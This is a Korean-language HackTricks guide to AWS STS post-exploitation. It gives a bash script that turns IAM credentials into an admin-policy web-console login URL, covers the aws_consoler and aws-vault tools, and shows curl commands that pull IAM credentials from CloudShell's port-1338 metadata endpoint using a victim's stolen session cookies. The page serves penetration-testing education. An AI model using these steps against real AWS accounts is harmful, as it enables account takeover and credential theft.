 # AWS - STS Post Exploitation

{% hint style="success" %}
AWS 해킹 학습 및 연습:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP 해킹 학습 및 연습: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원</summary>

* [**구독 플랜**](https://github.com/sponsors/carlospolop)을 확인하세요!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**telegram 그룹**](https://t.me/peass)에 가입하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)을 팔로우하세요.**
* **PR을 제출하여** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 해킹 트릭을 공유하세요.

</details>
{% endhint %}

## STS

더 많은 정보:

{% content-ref url="../../aws-security/aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../../aws-security/aws-services/aws-iam-enum.md)
{% endcontent-ref %}

### IAM Creds에서 콘솔로

IAM 자격 증명을 얻었다면 다음 도구를 사용하여 **웹 콘솔에 액세스**하는 데 관심이 있을 수 있습니다.\
사용자/역할에 **`sts:GetFederationToken`** 권한이 있어야 합니다.

#### Custom script

다음 스크립트는 기본 프로필과 기본 AWS 위치(정부 및 중국 제외)를 사용하여 웹 콘솔에 로그인할 수 있는 서명된 URL을 제공합니다:

{% code overflow="wrap" %}
```bash
# Get federated creds (you must indicate a policy or they won't have any perms)
## Even if you don't have Admin access you can indicate that policy to make sure you get all your privileges
## Don't forget to use [--profile <prof_name>] in the first line if you need to
output=$(aws sts get-federation-token --name consoler --policy-arns arn=arn:aws:iam::aws:policy/AdministratorAccess)

if [ $? -ne 0 ]; then
echo "The command 'aws sts get-federation-token --name consoler' failed with exit status $status"
exit $status
fi

# Parse the output
session_id=$(echo $output | jq -r '.Credentials.AccessKeyId')
session_key=$(echo $output | jq -r '.Credentials.SecretAccessKey')
session_token=$(echo $output | jq -r '.Credentials.SessionToken')

# Construct the JSON credentials string
json_creds=$(echo -n "{\"sessionId\":\"$session_id\",\"sessionKey\":\"$session_key\",\"sessionToken\":\"$session_token\"}")

# Define the AWS federation endpoint
federation_endpoint="https://signin.aws.amazon.com/federation"

# Make the HTTP request to get the sign-in token
resp=$(curl -s "$federation_endpoint" \
--get \
--data-urlencode "Action=getSigninToken" \
--data-urlencode "SessionDuration=43200" \
--data-urlencode "Session=$json_creds"
)
signin_token=$(echo -n $resp | jq -r '.SigninToken' | tr -d '\n' | jq -sRr @uri)



# Give the URL to login
echo -n "https://signin.aws.amazon.com/federation?Action=login&Issuer=example.com&Destination=https%3A%2F%2Fconsole.aws.amazon.com%2F&SigninToken=$signin_token"
```
{% endcode %}

#### aws\_consoler

[https://github.com/NetSPI/aws\_consoler](https://github.com/NetSPI/aws\_consoler)를 사용하여 **웹 콘솔 링크를 생성**할 수 있습니다.
```bash
cd /tmp
python3 -m venv env
source ./env/bin/activate
pip install aws-consoler
aws_consoler [params...] #This will generate a link to login into the console
```
{% hint style="warning" %}
IAM 사용자가 `sts:GetFederationToken` 권한을 가지고 있거나, 가정할 역할을 제공해야 합니다.
{% endhint %}

#### aws-vault

[**aws-vault**](https://github.com/99designs/aws-vault)는 개발 환경에서 AWS 자격 증명을 안전하게 저장하고 액세스할 수 있는 도구입니다.
```bash
aws-vault list
aws-vault exec jonsmith -- aws s3 ls # Execute aws cli with jonsmith creds
aws-vault login jonsmith # Open a browser logged as jonsmith
```
{% hint style="info" %}
**aws-vault**를 사용하여 **브라우저 콘솔 세션**을 얻을 수도 있습니다.
{% endhint %}

#### 콘솔에서 IAM 자격 증명으로

[**이 게시물에서 처음 발견됨**](https://blog.christophetd.fr/retrieving-aws-security-credentials-from-the-aws-console/), 웹 콘솔에 대한 일부 접근을 탈취한 경우(예: 쿠키를 훔쳤지만 .aws 폴더에 접근할 수 없었을 때), **CloudShell**을 통해 해당 사용자에 대한 IAM 토큰 자격 증명을 얻을 수 있습니다.

CloudShell은 **포트 1338의 문서화되지 않은 엔드포인트**를 통해 IAM 자격 증명을 노출합니다. 피해자의 세션 쿠키를 브라우저에 로드한 후, CloudShell로 이동하여 다음 명령을 실행하여 IAM 자격 증명을 얻을 수 있습니다.
```bash
TOKEN=$(curl -X PUT localhost:1338/latest/api/token -H "X-aws-ec2-metadata-token-ttl-seconds: 60")
curl localhost:1338/latest/meta-data/container/security-credentials -H "X-aws-ec2-metadata-token: $TOKEN"
```
{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 플랜**](https://github.com/sponsors/carlospolop)을 확인하세요!
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**telegram 그룹**](https://t.me/peass)에 가입하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)를 팔로우하세요.
* PR을 제출하여 [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 해킹 트릭을 공유하세요.

</details>
{% endhint %}
